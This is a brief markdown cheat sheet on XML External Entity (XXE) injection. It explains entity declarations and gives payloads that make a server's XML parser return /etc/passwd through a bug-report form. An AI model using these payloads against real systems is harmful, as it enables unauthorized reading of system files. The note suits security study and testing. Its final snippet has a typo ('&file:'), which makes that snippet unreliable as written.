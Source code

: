 # XXE Payloads

When you notice XML in the website or through the HTTP headers, we should see if we can get some XXE.

### Example

If you have an XML POST that looks like this.

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
                <bugreport>
                <title>we</title>
                <cwe>we</cwe>
                <cvss>we</cvss>
                <reward>we</reward>
                </bugreport>                                                                                        
```

For a file read injection we can change it to look something like this. `!DOCTYPE` - declares a set of rules about what can appear in the xml. `!ENTITY` - is similar to defining a variable that you can call on later in the file. `SYSTEM` - tells the XML parser to retrieve the entity from an external source allowing for XXE. Lastly, we can input the variable we defined earlier with `!ENTITY` to a textfield. It would look something like this. `<text>&variable;<\text>`

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<bugreport>
<title>test</title>
 <cwe>test</cwe>
 <cvss>test</cvss>
 <reward>&file;</reward>
</bugreport>
```

This will attempt to read the `/etc/passwd` file AS the webserver.

### Basic File Read

Basic file read looks like this.

```xml
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<any>
<title>test</title>
  <textoutput>&file:</textoutput>
</any>
```
